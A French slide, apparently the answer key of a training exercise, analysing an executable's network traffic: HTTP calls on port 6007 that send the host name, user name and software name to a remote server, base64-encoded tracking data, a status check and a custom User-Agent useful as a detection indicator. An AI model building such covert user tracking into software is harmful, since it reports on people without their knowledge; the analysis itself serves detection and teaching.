

CORRECTION / Analyse de l'exécutable

Connexion HTTP sur le port 6007 (non-standard)
port 6007 réservé au protocole X11 (X Window Server)

Flux de connexions:

> http://[IP]:6007/client/vortex/track-fantastic-go/[HOST]/windows/{“software”:”edit-my-face”,”user”:”[USER]”}
>> 302 Found (redirect)
> http://[IP]:6007/client/handler/[BASE64]
>> 302 Found (redirect)
base64 >> {“options”: {“software”:”edit-my-face”, “user”: “[USER]”}, “redirect”: true, “from”: “[IP]”, “@timestamp”: “[DATE]”}

> http://[IP]:6007/client/_status/[INT]
>> 200 Ok
>> {“processed”:[BOOL]}

A noter, l’utilisation d’un User-Agent spécifique dans les Headers:

User-Agent: track-fantastic/vortex-2.4